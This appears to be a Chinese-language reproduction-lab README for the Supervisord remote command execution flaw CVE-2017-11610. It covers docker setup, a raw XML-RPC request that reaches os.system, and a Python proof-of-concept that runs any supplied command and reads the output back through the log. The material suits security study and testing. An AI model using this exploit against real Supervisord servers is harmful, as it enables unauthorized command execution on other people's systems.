


# Supervisord 远程命令执行漏洞（CVE-2017-11610）

参考链接：

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 运行环境

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

## 漏洞测试

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```



## 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：


